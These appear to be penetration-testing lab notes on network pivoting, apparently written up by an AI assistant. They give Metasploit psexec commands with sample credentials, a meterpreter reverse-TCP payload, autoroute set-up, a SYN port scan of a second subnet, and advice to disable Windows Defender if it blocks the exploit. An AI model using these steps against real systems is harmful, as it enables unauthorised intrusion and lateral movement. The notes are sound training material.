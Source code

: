 ### **Notes: Pivoting in Practice**

---

### **Objective:**

Leverage a compromised machine to pivot into an isolated network and perform post-exploitation activities.

---

### **Practical Steps for Pivoting:**

1. **Use Exploit with Metasploit**:
    - Load the appropriate Metasploit module:
        
        ```Shell
        use exploit/windows/smb/psexec
        ```
        
    - Set required options:
        
        ```Shell
        set RHOSTS 192.168.57.141  # IP of the dual-homed machine (e.g., Frank Castle)
        set SMBDomain marvel.local
        set SMBPass password1
        set SMBUser EFCastle
        ```
        
    - Set payload:
        
        ```Shell
        set PAYLOAD windows/x64/meterpreter/reverse_tcp
        set LHOST eth0  # Listener network interface
        ```
        
2. **Exploit and Gain Access**:
    - Execute the exploit:
        
        ```Shell
        run
        ```
        
    - If blocked by Windows Defender, disable it and rerun the exploit.
    - Verify that a shell is obtained on the dual-homed machine.

---

### **Post-Exploitation (Routing & Scanning):**

1. **Inspecting the Network**:
    - Check available routes:
        
        ```Shell
        route print
        ipconfig
        ```
        
    - Example outputs indicate the machine’s dual-homed nature:
        - Subnet A: `192.168.57.x`
        - Subnet B: `10.10.10.x`
    - Verify connectivity between subnets:
        - Use `ping` to check communication between machines.
2. **Configure Pivot Routing**:
    - Use Metasploit’s AutoRoute to create routing for the new network:
        
        ```Shell
        run autoroute -s 10.10.10.0/24
        ```
        
    - Verify routes:
        
        ```Shell
        run autoroute -p
        ```
        
3. **Port Scanning the Pivoted Network**:
    - Use a Metasploit port scanning module to identify open ports:
        
        ```Shell
        search portscan
        use auxiliary/scanner/portscan/syn
        set RHOSTS 10.10.10.129  # Target in Subnet B
        set PORTS 445  # Example: Check if SMB is open
        run
        ```
        
    - Verify access:
        - Ensure the scanner confirms ports as open, demonstrating successful pivoting.

---

### **Concept Takeaways**:

1. **Definition of Pivoting**:
    - Redirect traffic through a compromised machine to access an otherwise unreachable network.
2. **Tools for Pivoting**:
    - **Metasploit** (as demonstrated).
    - **ProxyChains** (recommended for research).
    - **SSH Pivoting** (use SSH with dynamic port forwarding).
3. **Relevance in Practice**:
    - While not a daily occurrence in penetration tests, pivoting is essential for advanced engagements.
    - Familiarity with the concept and tools like Metasploit, ProxyChains, and SSH is highly beneficial.
4. **Actionable Advice**:
    - Research proxychains for dynamic pivoting.
    - Explore alternatives to Metasploit, like native tools for manual pivoting.

---

Let me save these notes as a `.txt` file for you.

It seems like I can’t do more advanced data analysis right now. Please try again later. Let me know if you'd like me to attempt saving these notes again or assist you with anything else.